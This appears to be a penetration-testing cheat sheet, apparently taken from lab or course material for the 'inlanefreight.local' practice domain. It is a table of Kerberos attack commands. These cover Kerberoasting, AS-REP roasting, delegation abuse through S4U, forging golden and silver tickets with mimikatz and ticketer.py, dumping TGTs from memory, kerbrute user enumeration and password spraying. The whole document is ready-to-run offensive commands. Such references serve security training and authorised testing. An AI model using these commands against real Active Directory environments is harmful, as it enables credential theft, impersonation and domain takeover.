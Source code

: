 | `Command` | `Description` |
| --------------|-------------------|
| `Invoke-Kerberoast`  | Get Kerberoastable accounts & hashes on Windows  |
| `Rubeus.exe kerberoast /nowrap`  | Get Kerberoastable accounts & hashes on Windows  |
| `GetUserSPNs.py inlanefreight.local/pixis`  | Get Kerberoastable accounts & hashes on Linux |
| `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`  | Get AS-Rep roastable accounts & hashes on Windows |
| `Rubeus.exe asreproast /format:hashcat` | Get AS-Rep roastable accounts & hashes with rubeus |
| `GetNPUsers.py inlanefreight.local/pixis`  | Get AS-Rep roastable accounts & hashes on Linux |
| `Rubeus.exe monitor /interval:5`  | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation) |
| `Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt`  | Get a TGS using a TGT |
| `Rubeus.exe renew /ticket:<b64 ticket> /ptt`  | Renew a TGT and pass it in memory |
| `Get-DomainComputer -TrustedToAuth`  | Get service accounts with constrained delegation on Windows |
| `Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt`  | Perform a S4U2* attack on Windows |
| `findDelegation.py inlanefreight.local/pixis`  | Get service accounts with delegation on Linux |
| `getST.py -spn <SPN> -hashes :<NT Hash> 'domain/user' -impersonate <user>`  | Perform a S4U2* attack on Linux |
| `mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt`  | Forge a golden ticket on Windows |
| `ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>`  | Forge a golden ticket on Linux |
| `mimikatz # kerberos::golden /domain:inlanefreight.local /user:<user> /sid:<Domain SID> /rc4: <Service account NT hash> /target:<target service account> /service:<service>  /ptt`  | Forge a silver ticket on Windows |
| `ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User>`  | Forge a silver ticket on Linux |
| `Rubeus.exe dump /luid:0x89275d /service:krbtgt`  | Dumps TGT in memory |
| `kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local`  | Enumerate user accounts via Kerberos |
| `kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local`  | Password spraying via TGT request |
